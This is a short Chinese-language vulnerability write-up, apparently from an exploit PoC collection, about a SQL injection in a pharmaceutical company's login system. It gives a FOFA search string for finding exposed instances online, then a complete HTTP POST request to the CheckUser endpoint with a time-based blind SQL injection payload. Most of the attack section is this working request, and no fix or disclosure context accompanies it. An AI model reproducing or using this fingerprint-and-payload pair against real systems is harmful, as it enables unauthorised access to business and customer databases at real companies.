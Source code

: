 # 医药公司登录系统存在SQL注入漏洞

# 一、漏洞简介
医药公司登录系统是一个全面且高效的管理工具，涵盖了销售管理、客户档案管理、药品字典管理等多个核心模块。该系统支持前台零售、批发销售、销售审核等多种销售方式，并具备完善的客户档案管理功能，包括客户的基本信息、经营权限等。此外，系统还提供国药标准药品字典库云下载功能，便于用户快速获取药品信息。整体而言，医药公司登录系统通过自动化的管理和数据分析，帮助医药企业优化业务流程，提升市场竞争力。

# 二、影响版本
+ 医药公司登录系统

# 三、资产测绘
+ fofa`body="ResourceScripts/zh-cn-Login.aspx.js"`

![1718300393150-bc4c042c-e623-4c35-bd2f-b019efc0686a.png](./img/ozPPteBCOVE52AVP/1718300393150-bc4c042c-e623-4c35-bd2f-b019efc0686a-788714.png)

# 四、漏洞复现
```http
POST /Login.aspx/CheckUser HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=utf-8
Priority: u=1

{"value":"' waitfor delay '0:0:5'--+"}
```

![1718300458322-719caf40-b4e1-4836-a62c-a0aca66ca420.png](./img/ozPPteBCOVE52AVP/1718300458322-719caf40-b4e1-4836-a62c-a0aca66ca420-062181.png)



> 更新: 2024-06-17 09:24:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fq92t7qp61yzgzp1>